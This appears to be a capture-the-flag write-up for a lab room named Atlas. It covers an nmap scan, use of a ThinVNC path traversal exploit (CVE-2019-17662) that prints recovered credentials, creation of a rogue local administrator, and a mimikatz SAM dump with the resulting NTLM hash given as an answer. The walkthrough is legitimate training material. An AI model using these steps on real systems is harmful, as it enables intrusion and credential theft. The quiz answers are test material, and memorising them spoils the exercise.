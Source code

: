 > # Atlas

# Summary

## Task 2 - Enumeration Port Scanning
Scan the target with `nmap -Pn`
```
$ sudo nmap -Pn 10.10.176.253 -A 
[sudo] password for kali: 
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-28 00:16 EST
Nmap scan report for 10.10.176.253
Host is up (0.21s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: GAIA
|   NetBIOS_Domain_Name: GAIA
|   NetBIOS_Computer_Name: GAIA
|   DNS_Domain_Name: GAIA
|   DNS_Computer_Name: GAIA
|   Product_Version: 10.0.17763
|_  System_Time: 2023-01-28T05:19:08+00:00
|_ssl-date: 2023-01-28T05:19:18+00:00; +18s from scanner time.
| ssl-cert: Subject: commonName=GAIA
| Not valid before: 2023-01-27T05:10:57
|_Not valid after:  2023-07-29T05:10:57
8080/tcp open  http-proxy
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
|     Content-Type: text/html
|     Content-Length: 177
|     Connection: Keep-Alive
|     <HTML><HEAD><TITLE>404 Not Found</TITLE></HEAD><BODY><H1>404 Not Found</H1>The requested URL nice%20ports%2C/Tri%6Eity.txt%2ebak was not found on this server.<P></BODY></HTML>
|   GetRequest: 
|     HTTP/1.1 401 Access Denied
|     Content-Type: text/html
|     Content-Length: 144
|     Connection: Keep-Alive
|     WWW-Authenticate: Digest realm="ThinVNC", qop="auth", nonce="bdC/DEfz5UCI10sCR/PlQA==", opaque="cJF3mrJdkdB9SCgkZwOlSFyaGa7v9DGmPN"
|_    <HTML><HEAD><TITLE>401 Access Denied</TITLE></HEAD><BODY><H1>401 Access Denied</H1>The requested URL requires authorization.<P></BODY></HTML>
| http-auth: 
| HTTP/1.1 401 Access Denied\x0D
|_  Digest nonce=Ez15F0fz5UAI2EsCR/PlQA== realm=ThinVNC opaque=OxXVtphKeq0qy7ZaPZEyadWA6OuY3Co0lq qop=auth
|_http-title: 401 Access Denied
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8080-TCP:V=7.92%I=7%D=1/28%Time=63D4AFCD%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,179,"HTTP/1\.1\x20401\x20Access\x20Denied\r\nContent-Type:\x20
SF:text/html\r\nContent-Length:\x20144\r\nConnection:\x20Keep-Alive\r\nWWW
SF:-Authenticate:\x20Digest\x20realm=\"ThinVNC\",\x20qop=\"auth\",\x20nonc
SF:e=\"bdC/DEfz5UCI10sCR/PlQA==\",\x20opaque=\"cJF3mrJdkdB9SCgkZwOlSFyaGa7
SF:v9DGmPN\"\r\n\r\n<HTML><HEAD><TITLE>401\x20Access\x20Denied</TITLE></HE
SF:AD><BODY><H1>401\x20Access\x20Denied</H1>The\x20requested\x20URL\x20\x2
SF:0requires\x20authorization\.<P></BODY></HTML>\r\n")%r(FourOhFourRequest
SF:,111,"HTTP/1\.1\x20404\x20Not\x20Found\r\nContent-Type:\x20text/html\r\
SF:nContent-Length:\x20177\r\nConnection:\x20Keep-Alive\r\n\r\n<HTML><HEAD
SF:><TITLE>404\x20Not\x20Found</TITLE></HEAD><BODY><H1>404\x20Not\x20Found
SF:</H1>The\x20requested\x20URL\x20nice%20ports%2C/Tri%6Eity\.txt%2ebak\x2
SF:0was\x20not\x20found\x20on\x20this\x20server\.<P></BODY></HTML>\r\n");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: specialized
Running (JUST GUESSING): AVtech embedded (87%)
Aggressive OS guesses: AVtech Room Alert 26W environmental monitor (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 17s, deviation: 0s, median: 16s
```

1. With the Nmap default port range, you should find that two ports are open. What port numbers are these?<br>
    **Answer:** 3389,8080

1. What service does Nmap think is running on the higher of the two ports?<br>
    **Answer:** http-proxy

## Task 4 - Attack Foothold
This python script perform path traversal to retrieve ThinVNC.ini.<br>
```
$ python3 CVE-2019-17662.py 10.10.155.254 8080 

     _____ _     _    __     ___   _  ____                                                                                                                                            
    |_   _| |__ (_)_ _\ \   / / \ | |/ ___|                                                                                                                                           
      | | | '_ \| | '_ \ \ / /|  \| | |                                                                                                                                               
      | | | | | | | | | \ V / | |\  | |___                                                                                                                                            
      |_| |_| |_|_|_| |_|\_/  |_| \_|\____|                                                                                                                                           
                                                                                                                                                                                      
                            @MuirlandOracle                                                                                                                                           

                
[+] Credentials Found!
Username:       Atlas
Password:       H0ldUpTheHe@vens
```

## Task 5 - Access VNC 🠖 RDP
At here, to make it simple I use Remmina to access RDP.<br>
![](images/1.png)<br>

## Task 6 - Attack Privilege Escalation
Create a new local administrator.<br>
![](images/2.png)<br>
![](images/3.png)<br>

## Task 7 - Attack Post Exploitation
Drop mimikatz to the target for dumping SAM.<br>

1. Administrator NLTM's hash?
    **Answer:** c16444961f67af7eea7e420b65c8c3eb

